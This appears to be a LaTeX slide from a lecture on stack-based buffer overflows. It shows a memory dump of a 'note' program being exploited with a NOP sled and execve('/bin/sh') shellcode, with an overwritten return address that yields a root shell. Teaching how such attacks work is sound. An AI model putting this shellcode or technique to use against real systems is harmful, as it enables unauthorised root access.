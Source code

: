 \begin{frame}{Stack-based Overflow}
\begin{columns}[T]
\begin{column}{.5\textwidth}
\begin{block}{./note AAAAAAAAAAAAAAAA...}
\begin{verbatim}
        bffff400:  41414141  A  A  A  A
Segmentation fault
	\end{verbatim}
	\end{block}
	\end{column}
\end{columns}
\framebreak
\tiny\begin{block}{Overwriting the return address}
	\begin{columns}[T]
	\begin{column}{.4\textwidth}
	\tiny\begin{verbatim}
Memory: addNote(): 80484f9,
main(): 80484b4, buffer:bffff384
n_ebp: bffff458, n_esp: bffff380
m_ebp: bffff468, m_esp: bffff464
        address    hex val   string val
n_esp > bffff380:  bffff380  ?  ?  ?  ?
buffer> bffff384:  90909090  ?  ?  ?  ?
        bffff388:  90909090  ?  ?  ?  ?
        ...        ...       ...
        bffff418:  90909090  ?  ?  ?  ?
        bffff41c:  31db3190  1  ?  1  ?
        bffff420:  b0c031c9  ?  ?  1  ?
        bffff424:  3180cdcb  1  ?  ?  ?
        bffff428:  2f6850c0  /  h  P  ?
        bffff42c:  6868732f  h  h  s  /
        bffff430:  6e69622f  n  i  b  /
        bffff434:  5350e389  S  P  ?  ?
        bffff438:  d231e189  ?  1  ?  ?
        bffff43c:  80cd0bb0  ?  ?     ?
	\end{verbatim}
	\end{column}
	\begin{column}{.4\textwidth}
	\tiny\begin{verbatim}
        bffff440:  01b0db31     ?  ?  1
        bffff444:  909080cd  ?  ?  ?  ?
endBuf> bffff448:  90909090  ?  ?  ?  ?
        bffff44c:  90909090  ?  ?  ?  ?
        bffff450:  90909090  ?  ?  ?  ?
        bffff454:  0804a008     ?  
n_ebp > bffff458:  90909090  ?  ?  ?  ?
n_ret > bffff45c:  bffff388  ?  ?  ?  ?
        bffff460:  bffff600  ?  ?  ?  
m_esp > bffff464:  b8000ce0  ?        ?
m_ebp > bffff468:  bffff4c8  ?  ?  ?  ?
m_ret > bffff46c:  b7eb4e14  ?  ?  N  
        bffff470:  00000002           
sh-3.1# whoami
root
sh-3.1# exit
	\end{verbatim}
	\end{column}
\end{columns}
	\end{block}
\end{frame}
